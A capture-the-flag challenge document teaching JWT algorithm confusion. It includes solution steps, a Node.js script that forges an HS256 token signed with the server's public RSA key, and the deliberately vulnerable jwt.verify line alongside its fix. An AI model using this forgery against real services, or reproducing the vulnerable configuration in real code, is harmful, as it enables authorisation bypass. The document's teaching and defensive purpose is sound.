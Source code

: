 # Challenge Document

### Version: `0.1.0`

### Long Title: Well, isn't that confusing?

### Short Title: WEB01

### Author: Lewis Clarke

### Date: 05/08/2025

### Difficulty: Medium

### Learning objective: Learn how to exploit insecure JWT verification via algorithm confusion

## Challenge Brief (as its to be written in RIO):

You're an undercover operative embedded deep within enemy-controlled space. Disguised as a civilian passenger, you've infiltrated a high-security starship just as it docks at Astra-9, a critical command station overseeing this sector.

Your objective is to override defenses and disable all vital systems. Once compromised, your Empire's fleet will commence a full-scale assault to seize control.

## Solve:

### Solution as intended

1. Navigate to `/robots.txt` and notice the `Disallow: /access-logs`
2. Navigate to `/access-logs`

- Identify a name where access was 'Granted'
- Note the locations 'Docking Bay' and 'Bridge'

3. Return to `/docking-bay`, enter a valid name, e.g. 'Nova'
4. Inspect the 'Application' tab in the console and note the `astral_token` cookie that has been generated. Copy paste the value into the decoder at https://www.jwt.io/
5. Note the JWT header alg `RS256`. Note the claims payload fields: `name`, `role`
6. From the locations we noted earlier, navigate to `/bridge`
7. We are denied access and our role needs to be 'commander'
8. Return to `/docking-bay`
9. View the 'alt' of the portrait image and note the value 'Commander Reinhard'

- Note: This is important as any name other than 'Reinhard' will reject bridge authorisation, even if the role is 'commander'

10. Notice the text "Portait of a **well-known** commander"
11. Navigate to `/.well-known/jwks.json`

- The JWT header alg value `RS256` suggests asymmetric signing.
  Public keys are often exposed at `/.well-known/jwks.json` for signature verification.
  The 'well-known commander' hint should aid in directing players there.

12. Convert the JWK to a PEM-formatted public key. You can do this via a number of methods, one example online: https://8gwifi.org/jwkconvertfunctions.jsp
13. Run the below script with the path to the resulting .pem file

```js
const jwt = require("jsonwebtoken");
const fs = require("fs");

const publicKey = fs.readFileSync("converted-public.pem", "utf8");
const payload = {
  name: "Reinhard",
  role: "commander",
};

const token = jwt.sign(payload, publicKey, { algorithm: "HS256" });
console.log(token);
```

14. Set the astral_token cookie value to the output of the above script
15. Navigate to `/bridge`
16. See the flag on the page!

### Solution with no exploration

1. Navigate to `/.well-known/jwks.json`
2. Convert the public key to a .pem. You can do this via a number of methods, one example online: https://8gwifi.org/jwkconvertfunctions.jsp
3. Run the below script with the path to the public key .pem

```js
const jwt = require("jsonwebtoken");
const fs = require("fs");

const publicKey = fs.readFileSync("converted-public.pem", "utf8");
const payload = {
  name: "Reinhard",
  role: "commander",
};

const token = jwt.sign(payload, publicKey, { algorithm: "HS256" });
console.log(token);
```

4. Set the astral_token cookie value to the output of the above script
5. Navigate to `/bridge`
6. See the flag on the page!

Try harder, be better, lmgtfy, its right there, jesu...

## Author Notes:

Was it just as fun creating the challenge context than the exploit itself? Who knows?

Feel free to change the public/commander_portait.png image to a picture of Simon.

## Debrief:

This challenge highlights a subtly flawed JWT configuration. The developer assumed tokens would only use RS256 and hardcoded the RSA public key for verification. However, the server allows other algorithms, so when the alg header is changed to HS256, it incorrectly uses the public key as a symmetric HMAC secret. Since this key is publicly available, an attacker can forge valid tokens with arbitrary claims, effectively bypassing authorisation checks.

Vulnerable line:

```js
const data = jwt.verify(token, publicKey, { algorithms: ["RS256", "HS256"] });
```

Simple fix:

```js
const data = jwt.verify(token, publicKey, { algorithms: ["RS256"] });
```

In NodeJS, though the commonly-used [`jsonwebtoken`](https://www.npmjs.com/package/jsonwebtoken) library prevents public keys from being used as HMAC secrets in versions >8.5.1, the vulnerable version is still widely used. As of writing this challenge, npm [reports](https://www.npmjs.com/package/jsonwebtoken?activeTab=versions) 3.1 million downloads in the last 7 days.

PortSwigger has an extensive write-up and a number of labs on JWT attacks, including algorithm confusion: https://portswigger.net/web-security/jwt/algorithm-confusion

To take it a step further, review the section 'Deriving public keys from existing tokens' whereby you can carry out a similar attack to this challenge but with no public key exposed like was at `/.well-known/jwks.json` here.

## Hints:

1. In /access-logs note the names granted access as well as the 2 locations.

2. We're issued a JWT in the astral_token cookie upon successfully docking. If only we could generate our own with the commander role... but that RS256 alg is tricky.

3. The phrase "well-known commander" isn't just narrative flavour. Is there anything in relation to JWT that is "well-known"?

4. Now we've converted the JWK to a PEM public key and crafted our own token, we have everything except a name. I wonder if that commander portrait contains any hidden markings on who he is...
